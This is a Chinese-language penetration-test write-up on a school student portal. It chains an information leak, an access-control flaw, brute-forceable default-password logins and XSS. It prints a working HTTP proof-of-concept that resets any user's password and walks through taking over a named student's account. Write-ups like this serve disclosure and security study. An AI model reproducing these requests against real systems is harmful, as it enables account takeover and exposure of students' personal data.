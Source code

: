 # 原创
：  实战纪实 | 几个有趣的漏洞导致的连锁危害

# 实战纪实 | 几个有趣的漏洞导致的连锁危害

##### 前引：总的来说就是信息泄露+越权+爆破登录+xss这四个漏洞导致的连锁反应，因为他有默认密码123456，所以最终可以重置全校学生的密码，并都植入xss，危害十足。

信息收集：和嘉名童鞋一起测试的，都是他收集的QAQ 主要通过百度贴吧搜集到了默认密码和学号信息，实在是牛皮

### 漏洞复现：漏洞复现：

##### 漏洞一：某接口没有对权限进行限制导致信息泄露

登录后访问/stu/m/member/list

抓取数据包：

可以看到其他同班同学的个人资料，有学号、电话、邮箱，并且因为默认密码为123456，所以获取其他人的学号后可以登录很多的账号；<br/> 重要的是，该接口泄露了userid！这在接下来的漏洞二中有着很严重的危害：

第一个接口泄露了同班同学的userid，第二个接口可以通过userid重置密码。第三个漏洞没防爆破，有默认密码可以爆破学号登录很多账号，导致可以重置学校大部分用户的密码

##### 漏洞二：任意用户密码重置123456

危害：只需要登录任一账号获取学生权限，便可以将任意用户的密码重置为默认密码123456：

POC：

POST /stu/m/member/resetPassword HTTP/1.1<br/> Host: xxxx<br/> Cookie: 【登录任意账号的cookie即可】<br/> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0<br/> Accept: application/json, text/javascript, /; q=0.01<br/> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br/> Accept-Encoding: gzip, deflate<br/> Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br/> X-Requested-With: XMLHttpRequest<br/> Content-Length: 14<br/> Origin: xxxxx<br/> Referer: xxxxx<br/> Sec-Fetch-Dest: empty<br/> Sec-Fetch-Mode: cors<br/> Sec-Fetch-Site: same-origin<br/> Te: trailers<br/> Connection: close

userId=4841276

漏洞复现：先访问/stu/m/member/resetPassword后抓包

改为post包，加一个参数userId=4841276【userId在漏洞一未授权访问里可以看到，我重置了我测试的账号】

重置成功，恢复为默认密码123456

userid在漏洞一的未授权访问里获取：

比如我们想登录这位07116224的同学账号，未授权访问获取userId=4841566

登录随意一个账号后，构造如下数据包发送

登陆账号为xxxx+学号，默认密码123456

=

登陆成功
